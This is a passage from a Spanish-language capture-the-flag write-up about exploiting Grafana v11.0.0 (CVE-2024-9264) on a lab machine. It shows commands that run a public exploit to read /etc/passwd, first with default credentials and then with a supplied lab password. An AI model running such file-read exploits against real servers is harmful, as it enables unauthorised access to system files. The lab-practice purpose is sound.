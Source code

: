 Vamos añadirlo a nuestro archivo `hosts` de la siguiente forma:

```shell
nano /etc/hosts

#Dentro del nano
<IP>                planning.htb grafana.planning.htb
```

Lo guardamos y vamos a visitar dicho `subdominio` a ver que encontramos.

```
URL = http://grafana.planning.htb/
```

Veremos un `login` de `Grafana` es un `Software` de `Open source`, si buscamos la version de dicho `software` la veremos abajo.

## CVE-2024-9264 (Exploit)

```
Grafana v11.0.0
```

Vamos a buscar si tuviera algun exploit asociado al mismo.

Buscando un poco, veremos que hay una vulnerabilidad asociada a dicho `software` que afecta a la version especificamente `v11.0.0` justo la que esta instalada (`CVE-2024-9264`), por lo que vamos a probar a `explotarla` de esta forma.

URL = [Exploit Grafana v11.0.0](https://github.com/nollium/CVE-2024-9264)

En la documentacion del exploit veremos que requiere de unas credenciales validas, si probamos las que suelen venir por defecto `admin:admin` no va a funcionar, por lo que este comando no funcionara:

```shell
python3 exploit.py -u admin -p admin  -f /etc/passwd  http://grafana.planning.htb
```

Info:

```
[-] Failed to log in as admin:admin
```

Hay que encontrar unas credenciales validas para poder aprovechar dicha vulnerabilidad.

## Escalate user root (Docker)

Pero si leemos la descripcion de la maquina veremos que nos propocionan unas credenciales para dicho panel que vamos a probar directamente con el `exploit`.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-15 101821.png" alt=""><figcaption></figcaption></figure>

```shell
python3 exploit.py -u admin -p 0D5oT70Fq13EvB5r -f /etc/passwd  http://grafana.planning.htb
```
